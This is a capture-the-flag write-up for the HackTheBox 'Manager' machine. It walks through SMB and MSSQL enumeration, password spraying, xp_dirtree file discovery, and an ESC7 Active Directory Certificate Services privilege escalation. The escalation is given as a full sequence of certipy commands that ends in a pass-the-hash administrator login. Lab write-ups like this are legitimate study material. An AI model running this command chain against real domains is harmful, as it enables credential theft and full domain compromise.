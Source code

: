 ```yaml
---
layout: post
title: "Manager cfec3cd46494480db7224387594ecdf2"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Manager

HackTheBox: Medium

## 1: Enumeration

- nmap scanning

 

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled.png' | relative_url }})

With Rustscan we found 

> 445 SMB
1433 mssql
464 kpass
88 Kerberos
> 

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_1.png' | relative_url }})

That’s how we find active users in the machine

~Spray all the users found using Crackmapexec

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_2.png' | relative_url }})

## 2: User flag

> Crackmapexec is a useful tool but it is not maintained anymore so we are going to chanche a .py file something with the ssl version.
> 

Enum shared resources

<aside>
💡 Impacket-smbclient
Impacket-mssqlclient

</aside>

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_3.png' | relative_url }})

Once inside of shared resources we were able to access the database tables, we started looking into their contents. We hace content in xp_dirtree

We can check documentation to find web page resources 

```bash
 EXEc xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```

find a website backup  with creds, use wget to download it locally, using evil-wirm to access

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_4.png' | relative_url }})

## 3: Priv esc

```bash
whoami /groups /priv
```

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_5.png' | relative_url }})

Evil winrm a advantage, the capacity of upload and create files from remote machine

```bash
upload cerfity.exe
./Certify.exe find /vulnerable
```

> Now we’re gonna use certipy, with an auth we get  specific vulnerabilities and exploit them
> 

```bash
certipy find -u user@--- -p "rtgre" -enable -vulnearable -target manager.htb
```

Vulnerable to ESC7 find mor info [HERE](https://github.com/ly4k/Certipy#esc7) and exploit

```bash
#Add an officer named 'raven' to the CA named 'manager-DC01-CA' given managecertificate rights
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password '<password>' 

#Enable a certificate template named 'SubCA' for the CA 'manager-DC01-CA'.
certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password '<password>' 

#Submit a certificate request for the template 'SubCA' to the CA 'manager-DC01-CA'.
#It fails but we just need the private key to sign the certificate to issue directly
certipy req -username raven@manager.htb -password '<password>' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb 

#Issue the certificate based on the request submitted.
certipy ca -ca "manager-DC01-CA" -issue-request <private_key_id> -username 'raven@manager.htb' -password '<password>' 

#Retrieve the issued certificate.
certipy req -username 'raven@manager.htb' -password '<password>' -ca "manager-DC01-CA" -target manager.htb -retrieve <private_key_id>
```

You’ve got a hash for admin with

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
```

Whether for some reason it shows you an error message try to sync servers like this

```bash
sudo ntpdate -u manager.htb
```

And finally

```bash
evil-winrm -i 10.10.11.236 -u administrator -H password
```

Machine pwned!!!